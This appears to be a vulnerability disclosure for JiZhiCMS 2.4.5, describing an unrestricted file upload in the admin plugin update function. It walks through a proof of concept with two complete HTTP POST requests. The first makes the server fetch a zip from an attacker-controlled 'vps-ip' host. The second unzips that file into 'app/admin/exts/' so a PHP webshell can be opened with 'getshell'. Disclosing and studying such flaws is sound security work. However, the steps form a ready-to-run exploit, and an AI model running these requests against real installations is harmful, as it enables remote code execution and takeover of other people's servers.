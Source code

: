 # JiZhiCMS is vulnerable to Unrestricted File Upload
## Description
    JiZhiCMS 2.4.5 is vulnerable to Unrestricted File Upload which allows remote attackers to execute arbitrary code by uploading a php file.
## Vendor Homepage
    https://github.com/Cherry-toto/jizhicms,https://www.jizhicms.cn/

## Author
    HuBenLab
## Proof of Concept
This vulnerability is at the plugin, we can download the specified zip through the control url, and then unzip it to upload a Trojan.

Let's analyze it in detail. The key code is in the update function in `app/admin/c/PluginsController.php`. The parameters we need to pass are filepath (used to control part of the file name) and action (choose the function to use, here we choose start-download) The approximate function is to create a zip file and then pull a file from the cloud to write to the current zip file.

![image-20230525141643060](./img/image-20230525141643060.png)

Now that we have a zip, we can then use file-upzip to decompress it. We just need to pass the reference filepath to automatically unzip the zip to the `app/admin/exts/ directory`.

Use the following steps.

1. First compress the php file into a zip

   ![image-20230525141921868](./img/image-20230525141921868.png)

2. upload to vps, download the zip file on the vps

  ![image-20230525142011107](./img/image-20230525142011107.png)

  ```
  POST /index.php/admins/Plugins/update.html HTTP/1.1
  Host: jizhicms
  Content-Length: 94
  Accept: application/json, text/javascript, */*; q=0.01
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Origin: http://jizhicms
  Referer: http://jizhicms/index.php/admins/Plugins/index.html
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: PHPSESSID=ts87s3de2k4p79bdrm0mn14bs0
  Connection: close
  
  action=start-download&filepath=getshell&download_url=http://vps-ip/config.php.zip
  ```

  ![image-20230525142051457](./img/image-20230525142051457.png)

  Then the zip is downloaded to the cache directory

  ![image-20230525142111877](./img/image-20230525142111877.png)

3. unzip the zip, visit ip/app/admin/exts/filename to getshell

  ![image-20230525142146075](./img/image-20230525142146075.png)

  ```
  POST /index.php/admins/Plugins/update.html HTTP/1.1
  Host: jizhicms
  Content-Length: 37
  Accept: application/json, text/javascript, */*; q=0.01
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Origin: http://jizhicms
  Referer: http://jizhicms/index.php/admins/Plugins/index.html
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: PHPSESSID=ts87s3de2k4p79bdrm0mn14bs0
  Connection: close
  
  action=file-upzip&filepath=getshell
  ```

  Visit ip/app/admin/exts/config.php to getshell